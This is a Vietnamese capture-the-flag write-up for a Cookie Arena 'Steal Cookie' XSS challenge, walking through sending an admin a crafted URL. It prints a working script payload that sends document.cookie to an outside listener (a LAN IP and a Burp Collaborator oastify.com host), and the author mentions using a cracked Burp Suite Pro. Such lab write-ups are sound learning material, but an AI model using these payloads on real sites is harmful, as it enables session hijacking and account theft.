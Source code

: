  ## CHALLENGE: STEAL COOKIE

 Lại là một challenge khá là hay đến từ Cookie Arena.

 <img src="img/img1.png">

 Ở phần mô tả cũng đã nói qua là web này dính XSS, và nhiệm vụ của chúng ta là sử dụng JS để tạo ra 1 payload ăn cắp cookie của admin rồi sau đó dán vào memo để lấy flag.

 Challenge này cũng không khó, chủ yếu là mọi người phải có 1 web or server để nó trả về cookie.
 Ở đây tui có đi crack Burp Suite bản Pro nên có ```Collaborator tab```. Đừng đi méc là tui crack, plssssss.

 <img src="img/img2.png">

 Khi vào flag chúng ta thấy 1 tham số trống, nên chắc là tham số chúng ta thêm vào để ông admin nhấn vào.
 Sau khi search google thì tui tìm được trang [github](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) nó có chứa payload để thực hiện.

 Tui chọn payload ni: ```<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>```

 Vì ren tui chọn payload nớ, vì ni theo tui nghĩ thôi, payload 1 sẽ sử dụng ở những phần comment có chứa xss, còn ở đây là URL nên chúng ta chỉ cần 1 dòng. Rứa thoi.

 Mở Burp pro lên, ở phía bên trái trên cùng mọi người chọn Burp -> Burp Collaborator Client, sau đó 1 cửa sổ sẽ hiện lên.

<img src="img/img3.png">

<img src="img/img4.png">

Mọi người chọn ```Copy to Clipboard```, nó sẽ lưu 1 sub-collaborator cho mình. Và mọi người dán vào payload ở trên, nhớ là không xóa ```http://``` nghe.
Nó sẽ ra như này ```<script>var i=new Image;i.src="http://xnoktznp673dvn9oge1rpoe79yfo3d.oastify.com/?"+document.cookie;</script>```

Rồi dán payload vào trang thôi.

<img src="img/img5.png">

Sau khi dán vào thì mọi người sẽ có 1 pop-up hiện ra. Nhưng không cần quan tâm lắm.
Mọi người mở lại tab ```Collaborator Client``` của Burp Suite, và sẽ thầy kết quả, chúng ta chú ý đến type HTTP thay vì DNS.
Click vào type HTTP và chuyển sang mục ```Request to Collaborator``` và flag xuất hiện.

<img src="img/img6.png">

And done the challenge.

## THANK YOU FOR LEARNING GUYS

## PATIENCE IS THE KEY, SO KEEP TRYING EVERYDAY, LUV U <3